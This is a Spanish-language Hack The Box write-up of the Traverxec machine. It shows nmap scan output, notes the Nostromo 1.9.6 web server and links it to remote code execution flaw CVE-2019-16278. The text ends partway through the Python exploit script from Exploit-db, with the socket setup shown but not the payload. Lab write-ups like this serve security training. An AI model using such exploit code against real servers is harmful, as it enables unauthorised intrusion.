El output de nmap es el siguiente:

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nmap -sC -sV -p22,80 traverxec.htb -oN targeted.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 23:47 -05

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 26.87 seconds

```

Los puertos que están abiertos corresponde a los siguientes servicios:

- `Puerto 22 (SSH Secure Shell):` sirve para acceder de manera remota a máquinas de manera segura.
- `Puerto 80 (HTTP):` se utiliza para la navegación web de forma no segura.

### Enumeración HTTP

Revisando la página web, encontramos el nombre de `David White` que puede ser valioso en las fases posteriores.

En el output del escaneo con nmap, encontramos que el servidor web que está corriendo se llama `Nostromo` y la versión es la `1.9.6`. Consultando acerca de este servidor, Nostromo también es llamado `nhttpd` que es un servidor HTTP simple y rápido que corre como un único proceso. 


## Explotación

Buscando la versión 1.9.6 de Nostromo, encontramos en  [Exploit-db](https://www.exploit-db.com/exploits/47837) que esta versión es vulnerable a la ejeción de código remoto y corresponde al `CVE-2019-16278`.

El script está escrito en Python y se presenta a continuación

```python
#!/usr/bin/env python

import sys
import socket

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
```